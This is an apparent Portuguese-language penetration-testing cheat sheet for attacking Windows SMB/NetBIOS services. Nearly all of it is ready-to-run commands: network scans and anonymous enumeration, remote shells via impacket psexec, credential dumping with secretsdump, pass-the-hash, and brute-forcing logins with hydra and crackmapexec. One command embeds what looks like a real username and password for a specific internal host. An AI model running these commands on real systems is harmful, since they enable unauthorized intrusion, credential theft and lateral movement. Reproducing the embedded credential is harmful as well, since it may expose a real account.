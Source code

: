 # 🖧 SMB / NetBios

## 🔎 Buscando em uma rede aonde temos o 445 (smb) aberto 
```bash
nmap --open -v -sS -p 445 -Pn 10.10.10.0/24 -oG smb.txt
cat smb.txt | grep "Up" | cut -d " " -f 2 > targets.txt
```

## 🔎 scripts do nmap para enum
```bash
ls /usr/share/nmap/scripts/smb*
nmap -v --script=smb-os-discovery 10.10.10.10
```


## 🔎 Escaneando a rede para protocolos NetBios 
```bash
nbtscan -r 10.10.10.0/24
```

## 🔎 Ferramenta para automatizar coleta de informações SMB
```bash
crackmapexec smb targets.txt

rpcclient -U "" -N 10.10.10.10   (-U "" é anônimo - Se conectar vai abrir um terminal onde podemos enumerar)

enum4linux -a 10.10.10.10
   -U lista de users
   -S mostrar os compartilhamentos
   -a todas as opções de enum
```

## 🔎 SMBMAP 
```bash
smbmap -H 10.10.10.10
```

🔎 Próximos passos recomendados:
✅ Impacket-lookupsid para tentar enumeração de usuários
Esse script é muito bom para descobrir outros usuários do sistema com base nos RIDs padrão.
```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py suporte:'7A766BlBV8h8e7lU'@172.23.1.21
```

## 🔎 smbclient - interagindo
```bash
smbclient -L \\10.10.10.10 -N -W workgroup
smbclient //10.10.10.10/pasta_compartilhada
smbclient //10.10.10.10/C$ -U user%senha -W workgroup
```

## ⚡ Obtendo Shell Remoto 
```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py workgroup/user:'senha'@10.10.10.10
impacket-secretsdump workgroup/user:'senha'@10.10.10.10
```

## 🔑 Obtendo Shell com Hash NTLM (Sem Senha em Texto Claro) 
```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py user@10.10.10.10 -hashes arq_hash
```

## ⚙️ CrackMapExec: Habilitando RDP
O crackmapexec -L lista funções disponíveis, incluindo a opção de habilitar o RDP (Verifique se a porta 3389 está disponível).

## Brute Force
```bash
auxiliary(scanner/smb/smb_login)
crackmapexec smb 10.10.10.0/24 -u users.txt -p senhas.txt
hydra -l administrator -p senha123 smb://10.10.10.10

```
